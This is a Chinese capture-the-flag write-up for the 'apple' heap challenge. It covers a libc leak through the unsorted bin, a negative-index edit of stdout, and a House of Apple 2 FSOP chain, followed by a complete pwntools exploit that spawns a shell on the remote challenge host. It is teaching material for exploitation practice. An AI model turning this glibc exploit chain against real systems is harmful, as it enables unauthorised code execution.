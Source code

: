 # apple

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

可以任意堆块分配，且idx可以小于0。添加堆块时无法写入内容，只有1次edit。

首先分配大堆块并释放，利用unsorted bin的特性获取libcbase，然后分配`idx=12`的堆块，
这样`sizes[-8] == (int)notes[12]`，方便等一下利用。最后edit选择-8号堆块，即`stdout`，
然后我们就可以编辑`stdout`的内容。

![bss](assets/bss.png)

参照House of Apple 2调整`_IO_2_1_stdout_`的内容，使其能在退出时调用
`system('  sh;')`，然后编辑完成后程序返回，触发FSOP，执行命令拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './apple'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x15e7)')
    else:
        sh = remote('139.155.126.78', 39262)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')
    main_arena = 0x21ac80
    
    def add(idx: int, size: int):
        sh.sendafter(b'choice', p32(1))
        sh.sendafter(b'index', p32(idx))
        sh.sendafter(b'long', p32(size))

    def delete(idx: int):
        sh.sendafter(b'choice', p32(2))
        sh.sendafter(b'index', p32(idx))

    def show(idx: int) -> bytes:
        sh.sendafter(b'choice', p32(3))
        sh.sendafter(b'index', p32(idx))
        sh.recvuntil(b'>>>\n')
        return sh.recvuntil(b"1. ", True)

    def edit(idx: int, cont: bytes):
        sh.sendafter(b'choice', p32(4))
        sh.sendafter(b'index', p32(idx, sign=True))
        sh.sendafter(b'>>>\n', cont)

    add(0, 0x410)
    add(1, 0x20)
    delete(0)
    libcBase = u64(show(0)[:6] + b'\0\0') - main_arena - 0x60 # unsorted bin offset
    libc.address = libcBase
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    add(12, 0x20) # now -8 has size

    fakeFile = flat({
        0x0:    b'  sh;',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0xa0:   libc.symbols['_IO_2_1_stdout_'],
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   libc.symbols['_IO_2_1_stdout_'],
        }, filler=b'\0')
    edit(-8, fakeFile)

    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/apple.png)

## 参考

[House of apple 一种新的glibc中IO攻击方法 (2)](https://bbs.kanxue.com/thread-273832.htm)
